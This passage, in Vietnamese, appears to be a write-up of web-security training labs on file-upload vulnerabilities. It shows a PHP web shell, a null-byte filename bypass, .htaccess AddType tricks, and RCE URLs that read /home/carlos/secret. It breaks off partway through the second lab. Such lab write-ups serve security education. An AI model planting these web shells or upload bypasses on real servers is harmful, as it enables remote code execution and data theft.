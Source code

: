 * Quay lại Chall thì đề bài cho biết ta cần lấy `Secret` ở đường dẫn thư mục là `/home/carlos/secret` ở đây mình sẽ có hai cách để code Webshell. 1 là dùng file_get_contents(/home/carlos/secret) để lấy trực tiếp `Secret` ra. 2 là dùng `system($_GET['cmd'])` để có thể `RCE`. Để ta làm quen với `Web Shell` nên mình sẽ dùng cách 2.

![image](https://hackmd.io/_uploads/BJZoGPAp0.png)
* Truy cập vào web và dùng `Credential` được cho đăng nhập vào. Ở phần Upload Avatar thì mình sẽ tiến hành code một script PHP để tiến hành `Inject` `<?php system($_GET['cmd'])>?`

    ![image](https://hackmd.io/_uploads/B1LU4RRTA.png)
* Khi ta upload một file không thuộc extension là `jpg` và `png` thì sẽ bị filter ngay nên tận dụng những gì đã học mình sẽ dùng cách bypass bằng cách thêm `Null byte` vào trước extension như này 

    ![image](https://hackmd.io/_uploads/HJ9ouARTR.png)
* Ở đây mình thêm `%00` vào sau extension `.php` và trước `.jpg` để đánh lừa `server` và đã nhận phản hồi uploaded.

* Ta biết được files upload sẽ được upload ở path `/files/avatars/"files_uploaded"` vì thế mình đến đường dẫn này để xem file đã upload chưa và thực hiện `RCE` bằng payload `https://0a2e00540309cbe9c3142e2f0052008b.web-security-academy.net/files/avatars/shell.php?cmd=ls`. Lệnh `ls` để list ra các file trong thư mục hiện tại đang làm việc và ta thấy được file `shell.php` vừa mới được upload

    ![image](https://hackmd.io/_uploads/ryFwtAAa0.png)

* Từ đây ta có thể RCE để tiến hành thực hiện việc lấy Secret từ đường dẫn cho trước là `/home/carlos/secret` với payload như sau `https://0a2e00540309cbe9c3142e2f0052008b.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret` và nhận được flag

    ![image](https://hackmd.io/_uploads/ryPhFR06A.png)
> xbwZ4ehujuij49I7C8Mu2VWEkSE24XBx

### 2. Lab 2 Web shell upload via extension blacklist bypass

* Ở lab này là thông qua việc `Blacklist Bypasss` 

    ![image](https://hackmd.io/_uploads/SkQV5ACTC.png)

* Lab cũng cho thông tin là `Secret` được giấu ở đường dẫn như cũ. 
* Ta sẽ thử sử dụng lại cách bypass như cũ xem có thành công không thì kết quả là failed 

* Ta có một cách khác để có thể Bypass qua đó là đổi tên `file_name=.htaccess` cho phép cấu hình `Apache`, thay đổi `Content-Type=text/plain` giúp tránh kiểm tra bảo mật, và thêm chỉ thị `AddType application/x-httpd-php .l33t` để cho phép mã PHP trong tệp `.l33t` được thực thi, từ đó có thể `RCE` hệ thống.

    ![image](https://hackmd.io/_uploads/HyvTqeJAA.png)
* Ta nhận được kết quả là thành công. Ok bây giờ ta đã config thành công giờ hãy backward về `Request` trước đó và đổi filename từ `shell.php` thành `shell.l33t`

    ![image](https://hackmd.io/_uploads/rJTKsxyAC.png)
